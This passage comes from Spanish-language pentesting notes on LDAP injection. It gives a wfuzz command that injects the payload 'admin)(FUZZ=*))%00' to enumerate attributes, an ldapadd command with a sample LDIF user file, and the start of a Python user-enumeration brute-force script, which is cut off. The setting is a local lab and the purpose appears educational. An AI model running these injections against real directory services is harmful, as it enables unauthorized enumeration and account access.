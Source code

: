 - ## Enumeración de atributos mediante query maliciosa

Una vez que sabemos que los campos son vulnerables a estas inyecciones, se nos podria ocurrir realizar scripts en python para enumerar usuarios, jugar con una de las [[Tools]] com **wfuzz** o **gobuster** para aplicar numeración de los atributos, entre otras cosas.

```shell
wfuzz -c -t 200 --hs=200 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d "user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit" "http://localhost:8888"
```

Por lo que la query maliciosa sería la sig. `admin)(FUZZ=*))%00`. 

Tambien podriamos crear usuarios (En este caso, debido que tenemos las credenciales del usuario admin de LDAP y estamos en un escenario de ejemplo), con el comando `ldapadd -x -H ldap://{ip} -D "cn=admin,dc=example,dc=org" -w {password} -f {file_ldif}`. 

Un archivo ldif tiene la definición de (en este caso) la estructura de un usuario, lo cual podria ser algo similar a lo sig.: 

```new_user.ldif
dn: uid=dobliuw,dc=example,dc=org
uid: dobliuw
cn: dobliuw
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/dobliuw
uidNumber: 14583102
gidNumber: 14564100
userPassword: dobliuw123
mail: dobliuw@example.org
description: El mejor hacker del mundo papaaaaa
telephoneNumber: +54 52345245
```

Y de esta manera podemos crear un simple script en python para enumerar usuarios: 

```python
#!/usr/bin/python3
from pwn import * 
import sys, requests, time, string, signal 

# Ctrl + C 

def ctrl_c(signal, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars

url = "http://localhost:8888"
characters = string.ascii_lowercase
headers = {"Content-Type":"application/x-www-form-urlencoded"}
#burp_proxy = {'http': 'http://127.0.0.1/8080'}

# Bin 

p1 = log.progress("Brute Force")
p2 = log.progress("Users")

def getInitialUsers(): 
    
    users = []
```